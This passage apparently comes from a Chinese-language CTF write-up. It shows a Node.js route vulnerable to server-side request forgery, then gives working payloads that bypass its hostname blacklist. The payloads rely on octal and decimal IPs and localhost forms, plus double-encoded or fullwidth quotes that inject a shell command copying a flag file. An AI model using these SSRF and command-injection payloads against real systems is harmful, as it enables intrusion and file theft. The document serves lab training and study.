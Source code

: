 ```js
    }
});

router.post('/debug', function(req, res, next) {
    if(req.body.url !== undefined) {
        var u = req.body.url;
        var urlObject=url.parse(u); // 解析返回json对象
        if(blacklist.indexOf(urlObject.hostname) == -1){
            var dest=urlObject.href;
            request(dest,(err,result,body)=>{
                res.json(body);
            })
        }
        else{
            res.json([]);
        }
    }
});

```

**构造payload**

- 进制转换绕过黑名单
- 闭合引号加入其余命令：利用nodejs的url库二次解码绕过
  - `@`字符前，即表示用户名密码字段，会被二次解码
- `%00`或`%23`截断后续代码

```bash
# 二次编码 => web服务器一次解码 http://a%27@a, nodejs二次解码 http://a'@a
{"url":"http://0177.0.0.1:3000/debug?url=http://a%2527@a;cp$IFS/flag$IFS/tmp/log%00"}

# 特殊编码 => %EF%BC%87解码为'
{"url":"http://127.1:3000/debug?url=http://%EF%BC%87;cp$IFS/flag$IFS/tmp/log%00"}
```

使用POSTMAN，`POST -> body -> x-www-form-urlencoded`

#### 绕过

**SSRF黑名单绕过**

- `http://localhost`
- `http://[::]:80/`
- 进制转换`http://0177.0.0.1/`或`http://2130706433/`

